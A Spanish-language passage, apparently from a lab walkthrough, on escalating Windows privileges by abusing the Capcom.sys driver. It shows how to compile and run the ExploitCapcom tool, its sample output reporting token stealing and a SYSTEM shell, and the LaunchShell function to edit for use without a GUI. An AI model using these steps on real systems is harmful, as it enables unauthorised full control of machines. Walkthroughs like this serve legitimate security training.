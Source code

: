 Esto confirma que el driver fue cargado.

---

## 9) Compilar y ejecutar `ExploitCapcom.exe` para escalar
Compilar[`ExploitCapcom.exe`](https://github.com/tandasat/ExploitCapcom)

Ejecutar el binario:

```
.\ExploitCapcom.exe
```

Salida de ejemplo del exploit:

```
[*] Capcom.sys exploit
[*] Capcom.sys handle was obained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```

**Qué hace**: el exploit obtiene handle sobre el driver, coloca shellcode en memoria del kernel/espacio permitido, ejecuta shellcode, realiza *token stealing* y lanza una shell con privilegios `NT AUTHORITY\SYSTEM`.

---

## 10) Alternativa sin GUI — modificar `ExploitCapcom.cpp`

El texto indica que si no hay acceso GUI (no se puede abrir `cmd.exe` localmente), hay que modificar el código fuente `ExploitCapcom.cpp` (línea 292 en el ejemplo) para cambiar el programa que se lanza tras explotar el driver.

Fragmento:

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```
